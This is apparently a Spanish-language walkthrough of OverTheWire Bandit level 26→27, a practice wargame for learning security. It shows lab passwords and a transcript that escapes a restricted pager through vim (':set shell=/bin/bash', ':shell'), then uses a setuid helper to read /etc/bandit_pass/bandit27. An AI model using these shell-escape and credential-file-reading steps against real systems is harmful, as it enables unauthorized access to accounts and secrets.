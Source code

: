 ## Bandit Level 26→ Level 27

## Objetivo

Good job getting a shell! Now hurry and grab the password for bandit27!
## Datos de acceso al nivel

```
Usuario: bandit26
Contraseña: c7GvcKlw9mC7aUQaPx7nwFstuAIBw1o1
```
## Solución
```
Bash
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
--More--(66%)
v
_ _ _ _ ___ __
| | | (_) | |__ \ / /
| |__ __ _ _ __ __| |_| |_ ) / /_
| '_ \ / _` | '_ \ / _` | | __| / / '_ \
| |_) | (_| | | | | (_| | | |_ / /| (_) |
"~/text.txt" [readonly] 6L, 258B
:set shell=/bin/bash
:shell
[No write since last change]
bandit26@bandit:~$ bandit26@bandit:~$ ls
bandit27-do text.txt
bandit26@bandit:~$ ./bandit27-do id
uid=11026(bandit26) gid=11026(bandit26) euid=11027(bandit27) groups=11026(bandit26)
bandit26@bandit:~$ ./bandit27-do cat /etc/bandit_pass/bandit27
YnQpBuifNMas1hcUFk70ZmqkhUU2EuaS
bandit26@bandit:~$
bandit26@bandit:~$ exit
:qa!
q
```
## Notas adicionales

| Comando | Descripción |
|-----------|-----------|
| ls | lista los archivos|
| cat| me muestra el contenido de un archivo|
|- cat /|muestra el contenido de un archivo en un directorio en especifico|
## Referencias

ls